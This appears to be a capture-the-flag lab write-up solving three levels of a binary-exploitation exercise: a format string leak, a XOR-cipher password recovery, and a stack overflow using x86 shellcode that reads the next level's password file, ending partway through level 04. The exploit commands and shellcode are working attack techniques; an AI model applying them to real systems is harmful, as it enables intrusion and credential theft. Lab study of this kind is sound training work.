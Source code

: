 
## Level02 - 64 bits - Format string attack

printf prints directly the variable `username`

We don't know exactly the position of the the flag, we will use a format string attack to find the flag. We will test several position using a loop

### Resolve

```shell
./script.sh

(echo -e "AAA\nHh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H"; cat) | ~/level02
```

---

## Level03 - Reverse engineering cipher text

This one consists of reverse an encrypted text: "Q}|usfg~sf{}|a3"

A XOR operator with a `key` is applied on each bytes of the string

If the uncipher text is "Congratulations!", a shell is executed.

We know the key is less or equal than `0x15`

### Resolve

```shell
./a.out
  0x12: Congratulations!

  0x1337d00d - 0x12 = 0x1337cffb
  Password (input) is 0x1337cffb => 322424827

(echo 322424827; cat) | ~/level03
```

---

## Level04 - Can't use execve

execve is intercepted and cannot be executed

Ret2Libc or Shellcode without execve

### Resolve

```shell
pattern create 200 input
run < <(cat /tmp/input)

pattern search
  EIP+0 found at offset: 156

export SHELLCODE=`python -c "print '\x90' * 0xff + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'"` # open/read path

./getenv32 SHELLCODE ~/level04
  0xffffd79b

p /x 0xffffd7b9 + 100
  $2 = 0xffffd7ff
```